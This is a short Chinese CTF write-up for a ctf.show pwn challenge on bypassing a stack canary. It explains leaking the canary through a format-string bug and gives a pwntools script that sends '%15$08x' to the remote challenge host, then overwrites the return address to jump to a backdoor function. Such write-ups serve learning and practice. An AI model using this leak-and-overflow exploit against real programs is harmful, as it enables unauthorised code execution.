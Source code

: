 # 挑战简介
Bypass Canary 姿势2

# 思路
格式化字符串的canary绕过题目，利用格式化字符串找出canary位置

经典的canary都会有一个00的开头，所以用gdb可以直接调试出来  

然后就是绕过，植入后门即可  

<img width="417" height="137" alt="image" src="https://github.com/user-attachments/assets/50b28700-82dc-4dcb-8a55-8164ab1d54dd" />


```
#!/usr/bin/python3
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show', 28134)

elf = ELF('./pwn')

backdoor = elf.sym['qwerasd']

io.recv()

io.sendline("%15$08x")

canary = io.recv()[:8]

print(f"[DEBUG] canary (原始bytes): {canary}")
print(f"[DEBUG] canary (作为字符串): {canary.decode()}")
print(f"[DEBUG] canary (十六进制表示): {canary.hex()}")

Canary = unhex(canary.decode())[::-1]

print(f"[DEBUG] Canary (处理后的bytes): {Canary}")
print(f"[DEBUG] Canary (十六进制表示): {Canary.hex()}")
print(f"[DEBUG] Canary (长度): {len(Canary)} bytes")

canary_offset = 8*4

ret_offset = 3*4

payload = b'a' * canary_offset + Canary + b'a' * ret_offset + p32(backdoor)

io.sendline(payload)

io.interactive()
```
